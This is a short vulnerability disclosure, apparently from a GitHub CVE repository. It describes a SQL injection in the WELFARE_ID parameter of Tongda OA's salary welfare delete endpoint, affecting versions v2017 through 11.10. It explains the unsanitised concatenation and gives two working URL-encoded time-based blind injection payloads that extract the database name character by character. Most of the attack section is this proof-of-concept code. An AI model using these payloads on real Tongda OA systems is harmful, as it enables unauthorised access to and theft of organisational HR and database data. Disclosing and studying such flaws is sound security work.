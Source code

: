 SQL injection vulnerability exists in Tongda OA v2017 and later versions 11.10

verison:v2017 and v11.10 or later

1.

Routing: general/hr/salary/welfare_manage/delete PHP

There is an injected parameter: $WELFARE_ID

The code here is neat, concatenating the parameter directly into the SQL statement when the $WELFARE_ID is not empty, which is bypassed because the parentheses are closed.

![图片1](https://github.com/RCEraser/cve/assets/131632691/dde9b679-4bb9-4061-917a-4250db54c4c5)

2.Payload

We can use Cartesian product blind injection, the following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. ascii 116 also corresponds to the lowercase letter t. In this way, the database name and any database information can be obtained through blind injection.

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![图片2](https://github.com/RCEraser/cve/assets/131632691/c762a965-9a50-4ff3-acd3-dc9ce983ab90)

And we're going to change 116 to 115 so there's no delay, so there's SQL injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![图片3](https://github.com/RCEraser/cve/assets/131632691/babef685-deca-428f-8adc-ad8630cc8aab)
